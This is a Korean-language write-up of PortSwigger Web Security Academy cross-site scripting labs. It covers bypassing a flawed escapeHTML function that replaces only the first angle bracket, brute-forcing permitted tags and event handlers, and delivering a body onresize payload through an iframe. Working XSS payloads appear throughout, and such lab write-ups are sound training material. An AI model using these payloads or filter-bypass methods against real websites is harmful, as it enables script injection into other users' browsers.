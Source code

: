 `escapeHTML` 함수는  html escape 처리해주는 함수입니다. 하지만 이 함수는 결점이 있습니다.
```js
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
```

js에서 `replace()`는 처음으로 일치하는 문자만 치환해줍니다. 예를 들어 아래 예제를 보면 첫번째 꺽쇠 괄호만 치환됬다는 것을 알 수 있습니다.
```js
var brackets= "<><a>"
brackets.replace("<", "&lt").replace(">", "&gt")

// => &lt&gt<a>
```


escapeHTML를 bypass 후 innerHTML를 통해 XSS를 일으키면 문제가 해결됩니다.
```js
commentBodyPElement.innerHTML = escapeHTML(comment.body);
```


```
<><img src=1 onerror=alert(1)>
```


## Reflected XSS into HTML context with most tags and attributes blocked
---

다음 태그들로는 XSS는 일으킬 수 없다.
```html
<img src=1 onerror=print()>
<script>print()</script>
```

[cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)에 들어가서 태그 시트를 받아온 후 가능한 태그를 찾아낸다.

![[Screenshot from 2025-06-30 15-15-27.png]]

status code를 정렬 후 status code 200이 나오는 태그를 찾는다. `body`와 `custom tag`가 나온다.
![[Screenshot from 2025-06-30 15-18-41.png]]

이번에도 브루트포스로 가능한 이벤트 핸들러 **attribute**를 찾는다. 다음 사진을 보면 알겠지만 가능한 attribute들이 출력되는데 이 중 `onresize`가 이용하기 좋다.
![[Screenshot from 2025-06-30 15-34-54.png]]

다음을 검색창에 입력해보고 화면 사이즈를 줄이거나 늘리면 alert()가 출력되는 것을 알 수 있다.
```html
<body onresize=alert(1)>
```

이전 문제와 같이 exploit server를 이용해야하므로 iframe tag를 사용해 취약한 페이지와 연결한 후 victim이 스크립트를 실행시키도록 다음을 body를 작성한다. 특수 기호들은 URL encoding 하는 게 좋다.
```html
<iframe src="https://0aaf0040039acbbce6a3c12100210028.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
